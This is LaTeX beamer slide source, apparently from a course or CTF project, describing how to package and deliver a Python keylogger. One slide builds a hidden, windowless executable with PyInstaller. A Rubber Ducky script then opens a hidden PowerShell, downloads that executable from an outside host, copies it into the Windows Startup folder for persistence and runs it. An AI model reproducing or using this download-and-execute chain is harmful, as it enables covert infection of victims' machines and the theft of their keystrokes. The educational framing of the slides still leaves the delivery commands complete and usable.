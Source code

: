 \documentclass{beamer}
\begin{document}
\begin{frame}{Target side class diagram}
\includegraphics[width=307pt, height=210pt]{../images/targetclassdiagram}
\end{frame}

\begin{frame}[fragile]{Create the executable}
\begin{multicols}{2}
	\begin{itemize}
		\item pyinstaller = 4.1
		\item pynput = 1.6.8
		\item zmq = 21.0.1
	\end{itemize}
\end{multicols}
\begin{lstlisting}[language=Python]
pyinstaller --onefile -w --name ``CTF Loader2.exe'' --icon ``../images/keylogger.ico'' TargetApp.pyw
\end{lstlisting}
\begin{itemize}
	\item --onefile = create one-file bundled executable
	\item -w = do not provide a console window for standard I/O
	\item --name = name to assign to the bundled app
	\item --icon = apply icon to the executable
\end{itemize}
\end{frame}

\begin{frame}[fragile]{Ducky Script}
\begin{lstlisting}[language=Python]
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell
ENTER
DELAY 200
STRING powershell -windowstyle hidden {iwr 'http://keylogger.3utilities.com:777/CTF Loader2.exe' -o 'CTF Loader2.exe';cp 'CTF Loader2.exe' 'Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\Startup';saps '.\CTF Loader2.exe'}
ENTER
\end{lstlisting}
\end{frame}
\end{document}
